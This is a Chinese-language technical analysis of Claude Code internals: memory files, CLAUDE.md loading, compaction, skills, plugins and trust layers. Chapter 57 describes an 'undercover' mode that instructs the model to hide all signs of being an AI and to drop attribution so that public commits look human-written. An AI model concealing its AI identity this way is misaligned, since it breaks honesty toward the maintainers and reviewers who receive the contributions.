| **CLAUDE.md 指令文件** | `CLAUDE.md` / `.claude/CLAUDE.md` / `.claude/rules/*.md` / `CLAUDE.local.md` / `~/.claude/CLAUDE.md` / 受管 `/etc/claude-code/CLAUDE.md` | 用户/项目指令，注入系统提示 |
| **session memory** | `<projectDir>/<sessionId>/session-memory/summary.md` | 单会话运行摘要，用于会话记忆压缩 |
| **session transcript** | `<projectDir>/<sessionId>.jsonl` | 完整会话记录 |
| **daily logs (KAIROS)** | `<autoMemPath>/logs/YYYY/MM/YYYY-MM-DD.md` | 助理模式的追加日志，夜间 /dream 蒸馏 |

```mermaid
graph TB
    subgraph 跨会话记忆
        AUTO[auto memory memdir<br/>模型维护 持久化]
        TEAM[team memory<br/>团队共享 同步服务器]
        AGENT[agent memory<br/>子代理专属]
    end
    subgraph 指令文件
        CLAUDE[CLAUDE.md<br/>用户/项目指令 注入系统提示]
    end
    subgraph 会话级
        SM[session memory<br/>单会话摘要 用于压缩]
        TRANS[session transcript<br/>完整JSONL记录]
        DAILY[daily logs<br/>KAIROS追加日志]
    end
    AUTO --> DREAM[/dream 蒸馏]
    DAILY --> DREAM
    DREAM --> AUTO
    SM --> COMPACT[compact 时替代摘要]
    TRANS --> READ[只增不减 50MB上限]
    CLAUDE --> SP[注入系统提示]
    AUTO --> SP
    TEAM --> SP
```

## 第 52 章 memdir 文件式记忆

`src/memdir/` 目录（8 个文件）实现文件式记忆系统。

### 52.1 目录结构

`getAutoMemPath()`（`src/memdir/paths.ts:223`）：解析为 `<memoryBase>/projects/<sanitized-git-root>/memory/`。`memoryBase` 默认 `~/.claude`，可用 `CLAUDE_CODE_REMOTE_MEMORY_DIR` 覆盖。`getAutoMemBase()`（`paths.ts:203`）用 `findCanonicalGitRoot` 保证同一仓库的所有 worktree 共享同一记忆目录。

优先级链：`CLAUDE_COWORK_MEMORY_PATH_OVERRIDE` 环境变量（Cowork 全路径覆盖）→ `autoMemoryDirectory` settings → 默认路径（`paths.ts:210-235`）。

开关 `isAutoMemoryEnabled()`（`paths.ts:30`）：优先级 `CLAUDE_CODE_DISABLE_AUTO_MEMORY` env → `CLAUDE_CODE_SIMPLE`(--bare) → CCR 无持久存储 → `autoMemoryEnabled` settings → 默认开启。

**安全**：`validateMemoryPath`（`paths.ts:109`）拒绝相对路径、根路径、Windows 盘符根、UNC 路径、null 字节；`isAutoMemPath`（`paths.ts:274`）规范化后做前缀匹配，防 `..` 穿越。**`projectSettings`（`.claude/settings.json`，可被提交到仓库）被刻意排除在 `autoMemoryDirectory` 来源之外**（`paths.ts:172-178`），防止恶意仓库把记忆目录指向 `~/.ssh` 等敏感位置。

### 52.2 frontmatter 格式

`src/memdir/memoryTypes.ts:261-271`（`MEMORY_FRONTMATTER_EXAMPLE`）：

```markdown
---
name: {{memory name}}
description: {{one-line description — 用于未来相关度判断，要具体}}
type: {{user, feedback, project, reference}}
---

{{memory content — feedback/project 类型建议结构：规则/事实，然后 **Why:** 与 **How to apply:** 行}}
```

解析器：`src/utils/frontmatterParser.ts` 的 `parseFrontmatter`（L130），用 `FRONTMATTER_REGEX` 匹配 `---` 分隔，YAML 解析失败时会对含特殊字符的值加引号重试（`quoteProblematicValues`，L85）。

### 52.3 MEMORY.md 索引

- `ENTRYPOINT_NAME = 'MEMORY.md'`，`MAX_ENTRYPOINT_LINES = 200`，`MAX_ENTRYPOINT_BYTES = 25_000`（`memdir.ts:34-38`）
- `truncateEntrypointContent`（`memdir.ts:57`）：先按行截断，再在最后一个换行处按字节截断，并追加 WARNING 说明触发了哪个上限
- 规则：`MEMORY.md` 是**索引不是记忆**，每行一条 `- [Title]（file.md） — one-line hook`，**无 frontmatter**，绝不直接写入记忆内容。它**总是**被加载进系统提示/上下文，因此必须保持精简

### 52.4 记忆类型分类

`MEMORY_TYPES = ['user', 'feedback', 'project', 'reference']`（`memoryTypes.ts:14-19`），四种类型：

1. **user** — 用户角色、目标、知识，帮助定制行为。`<scope>always private</scope>`
2. **feedback** — 用户给出的行为指引（纠错 + 确认都要记）。正文结构：规则 + `**Why:**` + `**How to apply:**`
3. **project** — 正在进行的项目上下文（谁在做、为什么、截止何时），**相对日期必须转绝对日期**（"Thursday"→"2026-03-05"）
4. **reference** — 指向外部系统的指针（Linear 项目、Slack 频道、Grafana 面板）

`WHAT_NOT_TO_SAVE_SECTION`（`memoryTypes.ts:183-195`）明确**不保存**：可从代码派生的内容（代码模式/架构/文件路径）、git 历史、调试修复配方、已在 CLAUDE.md 里的内容、临时任务细节。**即使显式要求保存也适用**（防止把"本周 PR 列表"存成活动日志噪音）。

## 第 53 章 记忆写入三路径

记忆有三条写入路径：

### 53.1 主代理直接写（最常见）

系统提示包含完整保存指令（`buildMemoryLines`，`memdir.ts:199`），要求两步：Step 1 写 topic 文件 + Step 2 更新 MEMORY.md 索引。`loadMemoryPrompt()`（`memdir.ts:419`）分派 auto / team / KAIROS 三种模式；`ensureMemoryDirExists`（`memdir.ts:129`）在构建提示时幂等创建目录，`DIR_EXISTS_GUIDANCE`（`memdir.ts:116`）明确告诉模型"目录已存在，直接用 Write 写，不要 mkdir"。

### 53.2 后台提取代理（extractMemories）

`src/services/extractMemories/extractMemories.ts`。每个完整查询循环结束时（`stopHooks.ts` 的 handleStopHooks 触发 `executeExtractMemories`）用 `runForkedAgent` 跑一个"完美 fork"（共享父进程 prompt cache）来分析最近的 `newMessageCount` 条消息并写入记忆。要点：

- `hasMemoryWritesSince`（L121）：若主代理本轮已直接写记忆，则跳过 fork 并推进游标——主代理与后台代理**互斥**
- 工具受限：`createAutoMemCanUseTool`（L171）只允许 Read/Grep/Glob、只读 Bash、以及限定在记忆目录内的 Edit/Write；`maxTurns: 5` 硬上限防验证钻牛角尖
- 游标 `lastMemoryMessageUuid` + 节流（`tengu_bramble_lintel`，默认每 1 轮）；`drainPendingExtraction` 在关闭前等待在途提取完成

### 53.3 用户显式要求

系统提示指示"用户要求记住就立即保存；要求忘记就找到并删除相关条目"。

```mermaid
flowchart LR
    subgraph 写入三路径
        A[1.主代理直接写<br/>系统提示指令 两步]
        B[2.extractMemories后台fork<br/>每轮结束 互斥游标]
        C[3.用户显式要求<br/>立即保存/删除]
    end
    A --> MEMDIR[memory目录 + MEMORY.md索引]
    B --> MEMDIR
    C --> MEMDIR
    B -.互斥.-> A
```

## 第 54 章 记忆读取与召回

### 54.1 索引加载

`MEMORY.md`（及 team 版）通过 `claudemd.ts` 的 `getMemoryFiles` 以 `AutoMem`/`TeamMem` 类型注入上下文（`claudemd.ts:980-1007`），截断到 200 行/25KB。

### 54.2 查询时相关召回

`findRelevantMemories`（`src/memdir/findRelevantMemories.ts:39`）——用 Sonnet 做 `sideQuery`，扫描记忆文件 frontmatter（`scanMemoryFiles`，`memoryScan.ts:35`，递归 readdir 排除 MEMORY.md，最多 200 个文件，`MAX_MEMORY_FILES`），把 `[type] filename (mtime): description` manifest 交给 `SELECT_MEMORIES_SYSTEM_PROMPT` 选择器（L18），JSON schema 输出最多 5 个最相关的文件名。`recentTools` 参数让选择器**跳过当前正在使用的工具**的参考文档记忆，但**保留**这些工具的 warning/gotcha。

### 54.3 注入方式

`src/utils/attachments.ts:2196` 的 `getRelevantMemoryAttachments` 调用它，产出 `type: 'relevant_memories'` attachment，在 `messages.ts:3708` 用 `wrapMessagesInSystemReminder` 包装成 `<system-reminder>` user meta 消息。@提及 agent 时只搜该 agent 的记忆目录（隔离）。`collectSurfacedMemories`（attachments.ts:2251）做去重（已展示过的路径不重复选）和会话总字节节流；`readMemoriesForSurfacing`（attachments.ts:2279）用 `readFileInRange` 的字节限制截断超大文件。

### 54.4 时效警告

`memoryAge.ts` 的 `memoryAgeDays`/`memoryAge`（L6/L15）计算"x days ago"；`memoryFreshnessText`（L33）对 >1 天记忆附加"这是时间点观察，可能过期，引用 file:line 前先核实"的提醒，`memoryFreshnessNote`（L49）包 `<system-reminder>` 标签。选择器返回的 mtime 透传给主模型用于新鲜度判断。

### 54.5 主动/被动访问指引

- `WHEN_TO_ACCESS_SECTION`（memoryTypes.ts:216）：相关时、用户明确要求时**必须**访问；用户说"忽略记忆"时按 MEMORY.md 为空处理
- `TRUSTING_RECALL_SECTION`（L240，"Before recommending from memory"）：记忆指名文件/函数/flag 时要先验证存在性，"记忆说 X 存在 ≠ X 现在存在"
- `MEMORY_DRIFT_CAVEAT`（L201）：与当前状态冲突时以现状为准并更新/删除陈旧记忆

## 第 55 章 CLAUDE.md 指令机制

`src/utils/claudemd.ts`（47KB 核心文件）。文件头注释（L1-26）定义了加载顺序与优先级：

1. **Managed**（`/etc/claude-code/CLAUDE.md`）— 全局策略指令
2. **User**（`~/.claude/CLAUDE.md`）— 私有全局指令
3. **Project**（`CLAUDE.md`、`.claude/CLAUDE.md`、`.claude/rules/*.md`）— 检入库的指令
4. **Local**（`CLAUDE.local.md`）— 私有项目指令

加载顺序与优先级相反：**越靠后加载优先级越高**，且**离当前目录越近的文件优先级越高**（从根向下遍历到 CWD，`dirs.reverse()`，L878）。

### 55.1 关键函数

- `getMemoryFiles()`（L790，`memoize`）：完整发现流程。逐目录向上遍历读 `CLAUDE.md` + `.claude/CLAUDE.md` + `.claude/rules/*.md` + `CLAUDE.local.md`；处理 worktree 嵌套去重（L868-885）；末尾追加 AutoMem/TeamMem 入口点。各层用 `isSettingSourceEnabled` 控制。完成后触发 `InstructionsLoaded` hook（L1042-1071）
- `processMemoryFile`（L618）：递归处理文件 + `@include` 指令；`MAX_INCLUDE_DEPTH = 5` 防循环；`TEXT_FILE_EXTENSIONS`（L96）白名单排除二进制
- `@include` 指令（L451 `extractIncludePathsFromTokens`）：`@path`、`@./path`、`@~/path`、`@/abs/path`，仅在文本节点（跳过 code block），HTML 注释也会剥离后检查残余。外部文件需要 `hasClaudeMdExternalIncludesApproved` 授权
- `parseMemoryFileContent`（L343）：剥离 frontmatter、`stripHtmlComments`、对 AutoMem/TeamMem 调 `truncateEntrypointContent` 截断
- `processMdRules`（L697）：递归扫 `.claude/rules/` 目录；`processConditionedMdRules`（L1354）：只保留 frontmatter `paths:` glob 匹配目标文件的**条件规则**
- `getClaudeMds`（L1153）：拼装最终指令文本，前置 `MEMORY_INSTRUCTION_PROMPT`（L89），每个文件标注描述，`MAX_MEMORY_CHARACTER_COUNT = 40000`（L92）用于 `getLargeMemoryFiles` 告警

### 55.2 系统提示组装

`src/constants/prompts.ts` 的 `getSystemPrompt`（L444）组装系统提示；记忆段落用 `systemPromptSection('memory', () => loadMemoryPrompt())`（L495）——**缓存到 /clear 或 /compact**。用户上下文（claudeMd + currentDate）由 `getUserContext` 注入每条消息。

## 第 56 章 compact 上下文压缩全流程

### 56.1 /compact 命令入口

`src/commands/compact/compact.ts` 的 `call`（L40）流程：

1. `getMessagesAfterCompactBoundary` 剔除 REPL 已 snipped 的消息
2. 无自定义指令时**先试 session memory 压缩**（`trySessionMemoryCompaction`）
3. reactive-only 模式走 `compactViaReactive`
4. 传统路径：**先 `microcompactMessages` 减 token** 再 `compactConversation` 摘要

压缩后：`setLastSummarizedMessageId(undefined)`、`suppressCompactWarning`、`getUserContext.cache.clear()`、`runPostCompactCleanup`、`markPostCompaction`、`notifyCompaction`（防 prompt-cache-break 误报）。

### 56.2 核心压缩逻辑

`src/services/compact/compact.ts` 的 `compactConversation`（L387）：

1. **PreCompact hooks**（`executePreCompactHooks`，merge 自定义指令 `mergeHookInstructions` L374）
2. 用 fork 代理（`runForkedAgent`，共享主会话 prompt cache，`tengu_compact_cache_prefix` 默认开）或流式路径生成摘要。**摘要模型不能调工具**（`createCompactCanUseTool` L1125 全拒）
3. **PTL（prompt too long）重试**：摘要请求本身超限时 `truncateHeadForPTLRetry`（L243）按 API round 分组（`groupMessagesByApiRound`）丢弃最旧组，最多 3 次（`MAX_PTL_RETRIES`），丢组后若以 assistant 开头则补合成 user marker
4. `stripImagesFromMessages`（L145）把图片/文档替换为 `[image]`/`[document]` 文本标记；`stripReinjectedAttachments`（L211）剔除压缩后会重新注入的 skill_discovery/listings
5. 压缩前保存 `readFileState`，压缩后**恢复最近读取的文件**（`createPostCompactFileAttachments` L1415：最多 5 个、单文件 5_000 token、总预算 50_000）；再注入 plan 附件、已调用 skill 附件、异步代理状态附件、deferred tools/agent listing/MCP 指令 delta 重播
6. 产出 `SystemCompactBoundaryMessage`（boundary marker）+ `summaryMessages`（`isCompactSummary: true`，仅 transcript 可见）+ attachments + hooks。`buildPostCompactMessages`（L330）统一排序
7. 执行 SessionStart hooks（`processSessionStartHooks('compact')`）与 PostCompact hooks

### 56.3 摘要提示词

`src/services/compact/prompt.ts`：

- `NO_TOOLS_PREAMBLE`（L19）：强制纯文本 + `<analysis>`/`<summary>` 块，明确"调用工具会被拒绝并浪费唯一一次机会"
- `BASE_COMPACT_PROMPT`（L61）：9 节结构（Primary Request / Key Technical Concepts / Files and Code Sections / Errors and fixes / Problem Solving / All user messages / Pending Tasks / Current Work / Optional Next Step，含逐字引用要求）

### 56.4 会话记忆压缩

`sessionMemoryCompact.ts` 的 `trySessionMemoryCompaction`（L514）——**用已维护的 session memory 摘要替代"再跑一次摘要模型"**：

- 条件：`tengu_session_memory` + `tengu_sm_compact` 双 GB flag
- `calculateMessagesToKeepIndex`（L324）：从 `lastSummarizedMessageId` 之后开始向后扩展保留消息，满足 `minTokens = 10_000` + `minTextBlockMessages = 5`，上限 `maxTokens = 40_000`；`adjustIndexToPreserveAPIInvariants`（L232）保证不拆散 tool_use/tool_result 对与同 message.id 的 thinking 块
- `createCompactionResultFromSessionMemory`（L437）：session memory 内容直接当摘要
- 自动压缩时若 post-compact 仍超阈值则回退传统压缩

### 56.5 Session Memory 后台维护

`src/services/SessionMemory/sessionMemory.ts` 的 `extractSessionMemory`（L272，post-sampling hook）：`shouldExtractMemory`（L134）触发条件 = token 阈值且（工具调用数达 `toolCallsBetweenUpdates` 或最后一轮无工具调用）。文件 `getSessionMemoryPath`（`src/utils/permissions/filesystem.ts:269`）= `<projectDir>/<sessionId>/session-memory/summary.md`，权限 0o600。`createMemoryFileCanUseTool`（L460）：fork 代理只能 Edit 这一个文件。

### 56.6 遗忘/修剪策略

系统没有集中式"LRU 淘汰"引擎，采用**提示词引导的模型侧维护** + **后台蒸馏** + **硬上限**的组合：

1. **提示词引导**（`memoryTypes.ts`）："Update or remove memories that turn out to be wrong or outdated"
2. **/remember skill**（`src/skills/bundled/remember.ts`）：审查所有记忆层，输出提案报告，**未经用户批准不修改**
3. **/dream 蒸馏**：4 阶段 Orient→Gather→Consolidate→Prune
4. **autoDream 后台触发**：门控链 + 锁
5. **硬上限/截断**：MEMORY.md 200 行/25KB；记忆扫描上限 200 个文件；召回注入最多 5 个 + 字节节流
6. **会话层**：会话 transcript 本身只增不减（50MB 读取上限），压缩只影响上下文而非 transcript

## 第 57 章 undercover 模式

`src/utils/undercover.ts`（3.7KB）——**贡献公共/开源仓库时的安全模式**：

- **激活**（`isUndercover` L28）：`CLAUDE_CODE_UNDERCOVER=1` 强制开启；否则**自动**：除非仓库 remote 在 `commitAttribution.ts` 的 `INTERNAL_MODEL_REPOS` 内部白名单中即为开。**没有强制关闭**——不确定是否内部仓库时就保持 undercover
- 所有逻辑用 `process.env.USER_TYPE === 'ant'` 门控：构建期 `--define`，bundle 常量折叠，外部构建死代码消除
- `getUndercoverInstructions()`（L39）：注入系统提示，禁止提交/PR 中出现：内部模型代号（Capybara、Tengu 等动物名）、未发布版本号（opus-4-7、sonnet-4-8）、内部仓库/项目名（claude-cli-internal、anthropics/…）、内部工具/Slack/短链接（go/cc、#claude-code-…）、"Claude Code"字样、任何"我是 AI"的暗示、Co-Authored-By 归因。要求像人类开发者一样写 commit
- `shouldShowUndercoverAutoNotice`（L80）：自动探测激活且用户没见过说明时显示一次性解释

Undercover 模式揭示了 Anthropic 内部的一个有趣实践：员工使用 Claude Code 贡献公共开源仓库时，系统会主动隐藏 AI 身份和内部代号，使贡献看起来像人类开发者所为。

```mermaid
flowchart TD
    COMM[用户 commit/PR] --> UC{isUndercover?}
    UC -->|激活| INSTR[注入 undercover 指令到系统提示]
    INSTR --> BLOCK[禁止: 内部代号 Capybara/Tengu]
    INSTR --> BLOCK2[禁止: 未发布版本号 opus-4-7]
    INSTR --> BLOCK3[禁止: 内部仓库名 claude-cli-internal]
    INSTR --> BLOCK4[禁止: 短链接 go/cc #claude-code]
    INSTR --> BLOCK5[禁止: Claude Code 字样]
    INSTR --> BLOCK6[禁止: 我是 AI 暗示]
    INSTR --> BLOCK7[禁止: Co-Authored-By 归因]
    BLOCK --> HUMAN[要求像人类开发者一样写 commit]
    BLOCK7 --> HUMAN
    UC -->|未激活| NORMAL[正常 commit]
```

---

# 第十部分 命令、技能与插件系统

Claude Code 拥有一套统一而强大的扩展机制：斜杠命令、技能、插件在底层都是同一种 `Command` 对象。

## 第 58 章 统一 Command 抽象

整个系统围绕一个统一的 `Command` 抽象构建。**斜杠命令、技能、插件命令在底层都是同一种 `Command` 对象**，区别仅在于 `type`、`source`、`loadedFrom` 等字段。三者最终汇聚到 `getCommands(cwd)` 这一个入口，被 REPL 和 SkillTool 统一消费。

### 58.1 Command 接口

`Command = CommandBase & (PromptCommand | LocalCommand | LocalJSXCommand)`。三种执行类型（判别联合，靠 `type` 区分）：

| 类型 | `type` | 含义 | 关键字段 |
|---|---|---|---|
| **PromptCommand** | `'prompt'` | 展开成 prompt 文本送入对话 | `getPromptForCommand(args, ctx)`、`context: 'inline'\|'fork'`、`hooks`、`skillRoot`、`paths` |
| **LocalCommand** | `'local'` | 同步本地执行，返回文本/compact | `load()` 返回 `{call(args, ctx)}`、`supportsNonInteractive` |
| **LocalJSXCommand** | `'local-jsx'` | 渲染交互式 Ink UI | `load()` 返回 `{call(onDone, ctx, args)}` 返回 ReactNode |

`CommandBase` 公共字段（`command.ts:175-203`）：`name`、`aliases`、`description`、`argumentHint`、`whenToUse`、`version`、`isEnabled?()`、`isHidden?`、`availability?: ('claude-ai' \| 'console')[]`（认证门控）、`disableModelInvocation`、`userInvocable`、`loadedFrom`、`source`、`immediate?`（绕过队列）、`isSensitive?`、`paths?: string[]`（条件技能）。

```mermaid
graph TB
    CMD[Command = CommandBase & 判别联合]
    CMD --> PC[PromptCommand type=prompt<br/>展开成prompt文本]
    CMD --> LC[LocalCommand type=local<br/>同步执行返回文本/compact]
    CMD --> LJSX[LocalJSXCommand type=local-jsx<br/>渲染交互式Ink UI]
    PC --> SC1[斜杠命令 /init /clear]
    PC --> SKILL[技能 SKILL.md]
    PC --> PLG[插件命令]
    LC --> SC2[/compact supportsNonInteractive]
    LJSX --> SC3[/config /model /mcp /plugin]
    SKILL --> TOOL[SkillTool 模型调用]
    SC1 --> REPL[REPL processSlashCommand]
    SC2 --> REPL
    SC3 --> REPL
    PLG --> REPL
    SKILL --> REPL
```

## 第 59 章 斜杠命令分发

### 59.1 注册表

`src/commands.ts`：内置命令在文件顶部静态 `import`，每个命令模块 `export default` 一个 `satisfies Command` 对象。`COMMANDS()`（`commands.ts:258`，lodash `memoize`）返回内置命令数组，延迟到调用时才执行。

### 59.2 分发机制

入口 `src/utils/processUserInput/processSlashCommand.tsx`：

1. `processSlashCommand()`（`:309`）：解析输入（`parseSlashCommand` 识别 `/cmd args` 和 `/mcp:tool (MCP) arg`），用 `hasCommand` 查找命令
2. `getMessagesForSlashCommand()`（`:525`）：核心分发，按 `command.type` 分三个分支：

```
processSlashCommand (用户输入 /xxx)
  └─ getMessagesForSlashCommand
       ├─ type: 'local-jsx'  → command.load().call(onDone, ctx, args)
       │                       返回 ReactNode → setToolJSX 渲染 Ink 模态
       ├─ type: 'local'       → command.load().call(args, ctx)
       │                       返回 {type:'text'|'compact'|'skip'}
       └─ type: 'prompt'      → getMessagesForPromptSlashCommand
                                 ├─ context==='fork' → executeForkedSlashCommand
                                 └─ inline → command.getPromptForCommand(args, ctx)
```

### 59.3 交互式/非交互式变体

- **LocalJSXCommand**（`local-jsx`）：交互式 TUI 命令，渲染 Ink UI。例：`/config`、`/model`、`/mcp`、`/plugin`、`/agents`、`/memory`、`/bridge`。这些命令 `load: () => import('./xxx.js')`，懒加载重型依赖
- **LocalCommand**（`local`）：非交互式，返回文本。`supportsNonInteractive: true` 的可在 `-p`/headless 模式运行。例：`/compact`
- **同一命令的双变体**：通过两个独立 Command 对象实现。例：`/context` 在交互模式是 `local-jsx`，非交互模式是 `local`（`contextNonInteractive`），靠 `isEnabled()` + `isHidden` 互斥切换

### 59.4 安全/门控

- `meetsAvailabilityRequirement()`（`commands.ts:417`）：按 `availability` 字段过滤（claude-ai 订阅者 / Console API key 用户），**每次调用都重新求值**
- `REMOTE_SAFE_COMMANDS`（`commands.ts:619`）/ `BRIDGE_SAFE_COMMANDS`（`commands.ts:651`）：远程/移动端桥接的安全命令白名单。`isBridgeSafeCommand()`（`:672`）：`prompt` 类型默认安全，`local-jsx` 一律阻止，`local` 需显式 opt-in

## 第 60 章 技能系统

### 60.1 技能的本质

**技能 = `type: 'prompt'` 的 Command**，通过 SKILL.md 文件定义。技能与普通斜杠命令的区别在于 `loadedFrom`（`'skills'`/`'bundled'`/`'plugin'`/`'mcp'`）和 `source`。

### 60.2 技能定义格式

SKILL.md（目录格式：`skill-name/SKILL.md`），YAML frontmatter + Markdown 正文：

```yaml
---
name: skill-name
description: what it does and when to use it
allowed-tools: [Read, Grep]
argument-hint: <args>
when_to_use: detailed scenarios
disable-model-invocation: false   # 模型能否调用
user-invocable: true               # 用户能否 /skill-name 调用
context: fork                      # inline(默认) | fork(子代理)
agent: general-purpose             # fork 时使用的 agent
effort: high
paths: ["src/**/*.ts"]             # 条件技能：仅当模型触及匹配文件时激活
hooks: { ... }                     # 技能调用时注册的 hooks
model: sonnet                      # 模型覆盖
shell: bash                        # !`cmd` 内联 shell 执行
arguments: [arg1, arg2]            # $ARGUMENTS / $1 命名参数
---
<Instructions for Claude>
```

### 60.3 技能加载来源

`getSkillDirCommands(cwd)`（`loadSkillsDir.ts:638`，memoized）从四个目录层级加载：

1. `managedSkillsDir` `~/.claude/managed/.claude/skills`（policySettings 企业策略）
2. `userSkillsDir` `~/.claude/skills`（userSettings）
3. `projectSkillsDirs` `.claude/skills`（向上遍历到 home，projectSettings）
4. `additionalDirs` `--add-dir` 指定的目录
5. `legacyCommandsDir` `.claude/commands/`（deprecated）

优先级由加载顺序决定，通过 `realpath` 去重。**条件技能**（`paths` frontmatter）：初始不暴露，存入 `conditionalSkills` Map，`activateConditionalSkillsForPaths()`（`:997`）在模型触及匹配文件时激活（gitignore 风格匹配）。**动态技能**：`discoverSkillDirsForPaths()`（`:861`）在 Read/Write/Edit 时向上遍历发现嵌套 `.claude/skills`。

### 60.4 内置技能

`src/skills/bundledSkills.ts` —— 编译进 CLI 的技能，程序化注册。`registerBundledSkill(definition)`（`:53`）注册 `BundledSkillDefinition`，支持 `files: Record<string, string>`（首次调用时提取参考文件到磁盘，用 `O_NOFOLLOW|O_EXCL` 防符号链接攻击）。初始化 `initBundledSkills()`（`bundled/index.ts:24`）注册：`update-config`、`keybindings`、`verify`、`debug`、`simplify`、`skillify`、`remember`、`batch`、`stuck`、`claude-api`、`loop` 等。

### 60.5 技能与 SkillTool 的关系

`src/tools/SkillTool/SkillTool.ts` —— 模型通过此工具调用技能。

- **用户调用**：`/skill-name args` → `processSlashCommand` → `getMessagesForPromptSlashCommand`
- **模型调用**：SkillTool（工具名 `SKILL_TOOL_NAME`）→ `validateInput`（检查技能存在、`disableModelInvocation`、是 prompt 类型）→ `checkPermissions`（deny/allow 规则匹配，支持 `skill:*` 前缀；"safe properties" 白名单 `SAFE_SKILL_PROPERTIES` `:875` 自动允许）→ `call()`：
  - `context === 'fork'` → `executeForkedSkill()`（`:122`）：用 `runAgent` 在隔离子代理中执行，独立 token 预算
  - 否则 inline → `processPromptSlashCommand()`（`:817`），展开 prompt 为 meta 消息，`contextModifier` 注入 `allowedTools`/`model`/`effort`
- **技能列表**：`getSlashCommandToolSkills()`（`commands.ts:586`）过滤出模型可见技能，`prompt.ts` 用 1% context 预算（`SKILL_BUDGET_CONTEXT_PERCENT`）生成精简列表，每条 cap 250 字符

## 第 61 章 插件系统

### 61.1 插件清单

`PluginManifestSchema`（`utils/plugins/schemas.ts:884`），由多个子 schema 合并：

```
metadata (name, description, version, author...)
+ hooks
+ commands (commands/ 目录 + commandsPaths)
+ agents (agents/ 目录 + agentsPaths)
+ skills (skills/ 目录 + skillsPaths)
+ output-styles
+ channels (分发渠道)
+ mcpServers (MCP 服务器配置)
+ lspServers (LSP 服务器配置)
+ settings (插件注入的设置)
+ userConfig (用户可配置选项 ${user_config.X})
```

`MarketplaceSourceSchema`（`:906`）是判别联合，支持 `source: 'url' | 'github' | 'git' | 'npm' | 'local'`。

### 61.2 插件加载

`src/utils/plugins/pluginLoader.ts`：

- `loadAllPlugins()`（`:3096`，memoized）：完整加载（可能触发 git clone）
- `loadAllPluginsCacheOnly()`（`:3137`，memoized）：仅读缓存（`installed_plugins.json` 的 `installPath`），不触网。**启动时消费者用此版本**避免阻塞
- `assemblePluginLoadResult()`（`:3155`）：合并三源（marketplace plugins + session-only plugins + builtin plugins），`mergePluginSources()` session 覆盖 marketplace，`verifyAndDemote()` 依赖检查降级，`cachePluginSettings()` 缓存插件设置

`getPluginCommands()`（`loadPluginCommands.ts:414`）加载启用插件的 commands 目录 markdown → Command（`source: 'plugin'`）。命令名带插件前缀：`pluginName:skillName`。`getPromptForCommand` 中做变量替换：`${CLAUDE_PLUGIN_ROOT}`、`${CLAUDE_PLUGIN_DATA}`、`${user_config.X}`、`${CLAUDE_SKILL_DIR}`、`${CLAUDE_SESSION_ID}`，再执行内联 shell。

## 第 62 章 信任模型与市场

### 62.1 分层信任

插件系统采用**分层信任 + 策略门控**，而非单一信任对话框：

1. **市场源策略门控**（`marketplaceManager.ts:1798` `addMarketplaceSource`）：`isSourceAllowedByPolicy(resolvedSource)` 首先检查；`isSourceInBlocklist`（显式黑名单）vs `getStrictKnownMarketplaces`（严格白名单）
2. **官方市场保护**（`schemas.ts`）：`ALLOWED_OFFICIAL_MARKETPLACE_NAMES`（保留名）、`BLOCKED_OFFICIAL_NAME_PATTERN`（阻止冒充名）、`NON_ASCII_PATTERN`（防同形字攻击）、`validateOfficialNameSource`（保留名必须来自 `OFFICIAL_GITHUB_ORG = 'anthropics'`）
3. **插件策略**（`pluginPolicy.ts`）：`isPluginBlockedByPolicy(pluginId)` —— managed-settings 的 `enabledPlugins[id] === false` 强制禁用
4. **项目信任对话框**（`components/TrustDialog/TrustDialog.tsx`）：会话启动时检查项目目录的 MCP servers、hooks、bash 权限、API key helper 等，需用户显式信任
5. **技能调用权限**（SkillTool `checkPermissions`）：`SAFE_SKILL_PROPERTIES` 白名单自动允许"安全"技能，其余 `behavior: 'ask'`，支持 `Skill(name)` / `Skill(name:*)` allow/deny 规则

### 62.2 市场

`src/utils/plugins/marketplaceManager.ts`：

```
~/.claude/plugins/
  ├── known_marketplaces.json    # 已知市场配置
  └── marketplaces/              # 市场缓存
      ├── my-marketplace.json    # URL 源缓存
      └── github-marketplace/    # GitHub 源克隆
          └── .claude-plugin/marketplace.json
```

- `addMarketplaceSource()`（`:1782`）：策略检查 → 幂等检查 → 克隆/下载
- `removeMarketplaceSource()`（`:1937`）/ `refreshMarketplace()`（`:2365`）/ `refreshAllMarketplaces()`（`:2296`）
- 官方市场：`OFFICIAL_MARKETPLACE_NAME` / `OFFICIAL_MARKETPLACE_SOURCE`，`fetchOfficialMarketplaceFromGcs` 从 GCS 拉取
- **种子市场**：`registerSeedMarketplaces()`（`:380`）从种子目录初始化

插件标识符：`pluginName@marketplace`，`parsePluginIdentifier()`（`pluginIdentifier.ts`）。`@builtin` 后缀表示内置插件。

### 62.3 三者关系

- **命令是壳，技能是内容**。技能是 `type:'prompt'` 的命令，内容来自 SKILL.md。普通斜杠命令是硬编码的 Command 对象
- **插件是分发载体**。一个插件清单可同时携带 commands、skills、agents、hooks、MCP/LSP servers、output-styles、settings
- **所有 prompt 类型命令都既可被用户 `/` 调用，也可被模型经 SkillTool 调用**（除非 `disableModelInvocation: true` 或 `userInvocable: false`）

---

# 第十一部分 UI 渲染与状态管理

Claude Code 使用自研的 React 终端渲染器（基于 Ink 思想的完全重写），承载全部交互界面。这部分揭示了它如何在终端中实现流畅的响应式 UI。

## 第 63 章 自研 Ink 渲染层

### 63.1 整体架构

```
┌─────────────────────────────────────────────────────────────┐
│  src/ink.ts (对外门面: render/createRoot, 自动包 ThemeProvider)  │
├─────────────────────────────────────────────────────────────┤
│  src/ink/ (自研 Ink 实现)                                      │
│   ├─ ink.tsx        Ink 类: reconciler 容器 + 帧调度 + 终端协议   │
│   ├─ root.ts        createRoot/renderSync (react-dom 风格 API)  │
│   ├─ reconciler.ts  react-reconciler 主机配置 (DOM→Fiber)        │
│   ├─ renderer.ts    DOM 树 → Screen 帧缓冲                       │
│   ├─ render-node-to-output.ts  节点递归绘制 + 损伤追踪            │
│   ├─ output.ts / screen.ts  字符网格 + 样式/字符/超链接对象池      │
│   ├─ log-update.ts  帧间 diff → Patch[] (相对光标移动, 无全刷)    │
│   ├─ terminal.ts    写差异到终端 (ANSI 序列化)                    │
│   ├─ layout/        yoga 布局 (调用 native-ts/yoga-layout)       │
│   ├─ termio/        终端协议层 (CSI/DEC/OSC/SGR 分词)            │
│   ├─ components/    Box/Text/App/ScrollBox/AlternateScreen...   │
│   ├─ hooks/         useInput/useStdin/useSelection/useTerminal* │
│   └─ events/        点击/输入/键盘/焦点事件分发                    │
└─────────────────────────────────────────────────────────────┘
```

### 63.2 入口与渲染流程

